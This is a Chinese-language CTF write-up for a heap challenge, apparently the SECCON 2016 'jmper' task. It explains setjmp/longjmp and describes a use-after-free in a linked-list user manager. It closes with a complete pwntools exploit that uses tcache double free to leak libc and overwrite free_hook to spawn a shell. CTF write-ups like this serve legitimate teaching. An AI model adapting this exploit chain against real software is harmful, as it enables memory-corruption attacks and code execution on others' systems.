









# 检查

# _setjmp 与 longjmp
`setjmp` 和 `longjmp` 是用于实现非本地跳转（non-local jump）的 C 函数。它们允许程序的控制流跨越函数调用边界，从某个指定位置跳转到之前记录的位置。这与常规的函数调用和返回机制不同，后者只能在函数内部转移控制流。

### _setjmp 与 longjmp 函数介绍

`setjmp` 函数用于设置一个返回点，而 `longjmp` 函数用于从程序的任意位置跳回到 `setjmp` 所设置的返回点。

#### _setjmp 函数
`_setjmp` 函数（在 C++ 中通常称为 `setjmp`）的原型如下：

```c
int _setjmp(jmp_buf env);
```

`env` 是一个 `jmp_buf` 类型的数组，用于保存当前执行环境的信息，包括寄存器的值和程序计数器。如果这是第一次调用 `_setjmp`，则 `_setjmp` 返回 0；如果是 `longjmp` 跳转回这个 `env`，那么 `_setjmp` 会返回一个非零值。

#### longjmp 函数
`longjmp` 函数的原型如下：

```c
void longjmp(jmp_buf env, int val);
```

`longjmp` 函数用于从当前执行位置跳回到 `env` 所标识的 `setjmp` 点。`val` 是传给 `setjmp` 的返回值，通常用来表示跳转的原因。

### 示例

下面是一个使用 `_setjmp` 和 `longjmp` 的示例：

```c
#include <stdio.h>
#include <setjmp.h>

jmp_buf jmpbuf;

void my_function() {
    printf("Inside my_function\n");

    // 模拟一个错误条件
    if (1) {
        longjmp(jmpbuf, 1); // 发生错误，跳回到setjmp点
    }
}

int main() {
    int ret;

    printf("Before setjmp\n");
    ret = _setjmp(jmpbuf); // 设置返回点

    if (ret == 0) {
        printf("First call to setjmp\n");
        my_function(); // 调用可能抛出longjmp的函数
    } else {
        printf("Caught an error, ret=%d\n", ret);
    }

    printf("After possible longjmp\n");

    return 0;
}
```

在这个例子中，`main` 函数先调用 `_setjmp` 来设置一个返回点。如果 `my_function` 检测到错误条件，就会调用 `longjmp`，这会立即把控制流返回到 `_setjmp` 调用的位置，跳过 `my_function` 中剩余的代码。`main` 函数中的 `else` 分支会在 `longjmp` 之后执行，用于处理错误。


需要注意的是，`longjmp` 和 `setjmp` 应当谨慎使用，因为它们可能破坏程序的状态——例如跳过资源释放代码，或者引发线程安全问题。一般来说，像 C++ 的 `try/catch` 这样的异常处理机制，或者更高层的错误处理方式，才是更可取的替代方案。
## 一个具体的例子
当你在 C 程序中调用 `longjmp()` 函数时，它会立即把程序的控制权转移到与所传入的 `jmp_buf` 相关联的那个 `setjmp()` 调用点。在这个例子中，`longjmp(main_begin_jmp_buf, 1);` 会使程序的控制流跳回到 `_setjmp(main_begin_jmp_buf);` 所在的位置。

具体来说，在你的代码片段中，`longjmp(main_begin_jmp_buf, 1);` 会让程序的执行从 `longjmp` 的调用点跳回到 `_setjmp(main_begin_jmp_buf);` 这一行之后的第一条指令。也就是说，如果 `_setjmp(main_begin_jmp_buf);` 紧跟着的是：

```c
if ( _setjmp(main_begin_jmp_buf) )
{
  v3 = time(0LL);
  printf("restart at %ld\n", v3);
}
```

于是在 `longjmp(main_begin_jmp_buf, 1);` 执行之后，程序会从 `if ( _setjmp(main_begin_jmp_buf) )` 这一行继续执行，但这一次 `_setjmp()` 不再返回 0——它返回的是 `longjmp()` 传入的值（这里是 1）。因此 `if` 语句的条件为真，程序会执行 `v3 = time(0LL);` 和 `printf("restart at %ld\n", v3);` 这两行。

简而言之，`longjmp(main_begin_jmp_buf, 1);` 会让程序跳转到 `_setjmp(main_begin_jmp_buf);` 之后的代码并从那里继续执行，此时 `_setjmp()` 返回 1，从而触发 `if` 语句中的代码块。
# 逆向分析





# 参考资料
[https://firmianay.gitbook.io/ctf-all-in-one/6_writeup/pwn/6.1.17_pwn_secconctf2016_jmper](https://firmianay.gitbook.io/ctf-all-in-one/6_writeup/pwn/6.1.17_pwn_secconctf2016_jmper)
[https://darkwing.moe/2019/09/24/Pwn%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B024-%E5%85%B6%E4%BB%96%E4%B8%80%E4%BA%9B%E6%8A%80%E6%9C%AF/](https://darkwing.moe/2019/09/24/Pwn%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B024-%E5%85%B6%E4%BB%96%E4%B8%80%E4%BA%9B%E6%8A%80%E6%9C%AF/)

#  思路

> 非常感谢 Eurus 提供的帮助

反编译结果存在问题；这里在 new_user 之后，root_chunk 会发生变化

这实现了一个循环双向链表。大致来说，创建一个用户会插入到链表尾部，然后更新 root_chunk；find 按照 name 遍历这个循环链表，最终当下一个节点与起始节点相同时停止

> 漏洞在于：释放当前的 root_chunk 之后，root_chunk 的值并没有被改变；find 仍然按照原来的 root_chunk 进行搜索，这进而影响了 new、dele 和 change


fastbin 是一个无底洞；chunk 无法被推入 unsortedbin。下面的代码可以证明这一点

```c
#include <stdlib.h>
int main()
{
    char*a[30];
    for(int i=1;i<=26;i++)
    {
        a[i]=malloc(0x20);
    }
     for(int i=1;i<=26;i++)
    {
        free( a[i]);
    }
}
```
由于我们泄露了堆地址，释放 root 之后，即使 name 发生了变化，我们仍然可以修改 passwd——这正是用于检测 double free 的 tcache 字段（它首先检查 e->key == tcache，然后遍历该 idx 对应的 tcache，看是否存在相同的地址）。接着利用 double free 实现任意堆分配，分配到某个堆 chunk 头部作为数据部分，而 passwd 恰好对应 size 部分，于是修改 size 之后再将其释放，使其进入 unsortedbin。为了避免触发检查错误，预先分配一批 0x30 大小的 chunk 以满足 chunk_extend


接着再次利用 double free 覆写 free_hook
# double free -> 泄露 libc
分配到堆头部位置，修改堆头部的 size，释放后它会进入 unsortedbin，从而可以将其泄露出来

# exp
```python
from pwn import *
context.log_level='debug'
context.os='linux'
context.arch='amd64'


def restart():
    p.sendlineafter(b'> ',b'1')

def add(name,passwd):
    p.sendlineafter(b'> ',b'2')
    p.sendafter(b'username > ',name)
    p.sendafter(b'password > ',passwd)

def delete(name):
    p.sendlineafter(b'> ',b'3')
    p.sendafter(b'username > ',name)

def edit(name,passwd):
    p.sendlineafter(b'> ',b'4')
    p.sendafter(b'username > ',name)
    p.sendafter(b'password > ',passwd)

def show():
    p.sendlineafter(b'> ',b'5')

p=process("./run")


add(b"2",b"2")
delete(b"2")
delete(b"root")
add(b"1",b"1") # 覆盖部分堆地址
show() 
heap=u64( (p.recv(6)).ljust(8,b"\x00"))-0x531
print("heap",hex(heap))
add(b"2",b"2") 
add(b"3",b"3") # 之后需要堆地址才能找到要编辑的 chunk

# 0x420
for i in range(21):
    add(b"extend",b"extend")


delete(b"2")
delete(b"3")      # 否则找不到

restart() # root_chunk 变为 3 

delete(b"root")


edit(p64(heap+0x540),b"0") 


delete(p64(heap+0x540))


add(p64(heap+0x560),p64(0))

add(p64(heap+0x560),b"unuse")
add(p64(0),p64(0x421))

delete(p64(heap+0x570)) # new user 会改变 16 24 


restart()  # 为了布局方便
add(b"1",b"1")

show()
leak=u64( (p.recv(6)).ljust(8,b"\x00"))
libc=leak-0x1ecb31

delete(p64(leak))
gdb.attach(p)
pause()
delete(b"root")

edit(p64(heap+0x740),p64(0))
delete(p64(heap+0x740))

add(p64(libc+0x1eee48-8),p64(0))
add(b"nouse",b"nouse")
add(b"/bin/sh\x00",p64(libc+0x52290))
delete(b"/bin/sh\x00")
p.interactive()


```


